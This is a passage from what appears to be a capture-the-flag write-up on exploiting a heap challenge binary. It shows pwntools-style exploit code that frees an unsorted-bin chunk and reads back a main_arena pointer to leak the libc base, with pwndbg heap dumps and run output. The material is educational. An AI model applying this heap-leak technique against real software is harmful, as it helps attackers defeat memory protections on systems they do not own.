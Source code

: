 Let's watch this in action, this is the exploit I will be using (see end for full script):
```py
create_plan(0x410, b'a')
create_plan(8, b'b')
delete_plan(0)
delete_plan(1)
create_plan(0x410, b'\xa0') # Use pwndbg to get this byte, it's always the same!
leak = u64(show_plan(0).ljust(8, b"\x00"))
libc.address = leak - libc.sym.main_arena - 96
```

This is the heap before the ``free()``, we can see the size set and the dummy ``a`` we sent.
```py
# You can get this info with vis_heap_chunks in pwndbg
0x5ddc07101640	0x0000000000000000	0x0000000000000000	................
0x5ddc07101650	0x0000000000000000	0x0000000000000000	................
0x5ddc07101660	0x0000000000000000	0x0000000000000421	........!....... # Here is the size
0x5ddc07101670	0x0000000000000061	0x0000000000000000	a............... # Here is the address
0x5ddc07101680	0x0000000000000000	0x0000000000000000	................
0x5ddc07101690	0x0000000000000000	0x0000000000000000	................
0x5ddc071016a0	0x0000000000000000	0x0000000000000000	................
0x5ddc071016b0	0x0000000000000000	0x0000000000000000	................
```
This is after the ``free()``, we notice an address there and that it's pointed by ``unsortedbin[0]``
```py
0x5ddc07101640	0x0000000000000000	0x0000000000000000	................
0x5ddc07101650	0x0000000000000000	0x0000000000000000	................
0x5ddc07101660	0x0000000000000000	0x0000000000000421	........!.......	 <-- unsortedbin[all][0]
0x5ddc07101670	0x000075e1a13ebca0	0x000075e1a13ebca0	..>..u....>..u..
0x5ddc07101680	0x0000000000000000	0x0000000000000000	................
0x5ddc07101690	0x0000000000000000	0x0000000000000000	................
0x5ddc071016a0	0x0000000000000000	0x0000000000000000	................
0x5ddc071016b0	0x0000000000000000	0x0000000000000000	................
```
let's double check with this command:
```py
pwndbg> unsortedbin 
unsortedbin
all: 0x5ddc07101660 —▸ 0x75e1a13ebca0 (main_arena+96) ◂— 0x5ddc07101660
```
Here we can see that this is a poiter to the ``main_arena+96``, let's leak it!
```py
[*] Create plan of size 1040: b'a'
[*] Create plan of size 8: b'b'
[*] Delete plan 0
[*] Delete plan 1
[*] Create plan of size 1040: b'\xa0'
[*] Show plan 0
[+] Libc base: 0x75e1a1000000
```
Mind that you need to send that ``0xa0`` byte in the second plan because we will override the first byte (we cannot read 0 bytes :(), we are lucky that this remains the same every time!
We have the base of libc, now we can work as if PIE wasn't there!
